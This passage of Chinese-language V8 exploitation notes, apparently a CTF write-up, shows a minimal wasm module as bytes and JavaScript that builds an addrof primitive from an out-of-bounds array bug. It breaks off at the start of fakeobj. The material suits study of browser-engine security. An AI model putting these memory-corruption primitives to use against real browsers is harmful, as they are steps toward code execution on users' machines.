 最后的wast：
```wast
(module
  (func (export "add"))
)
```

js的数组：
```js
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,4,1,96,0,0,3,2,1,0,7,7,1,3,97,100,100,0,0,10,4,1,2,0,11]);
```

wasm如果直接编译一个命令执行呢？

![](../images/Pasted%20image%2020250509152541.png)

试了一下，会报让我们import环境
![](../images/Pasted%20image%2020250513161351.png)

### 2.5 实现任意地址读

接 2.3，可以创造两个函数
获取任意obj的内存地址：把obj放入obj_arr，转换成float数组输出obj位置
任意地址变成obj：把地址放入float_arr，转换成obj_arr，获取里面的obj

```js
var temp_obj = {"A":1};
var obj_array = [temp_obj];
var flt_array = [1.1];
var obj_map = obj_array.oob();
var flt_map = flt_array.oob();

function addrof(in_obj) {
	obj_array[0] = in_obj;
	obj_array.oob(flt_map);
	let addr = obj_array[0];
	obj_array.oob(obj_map);
	return ftoi(addr);
}


function fakeobj(addr) {
```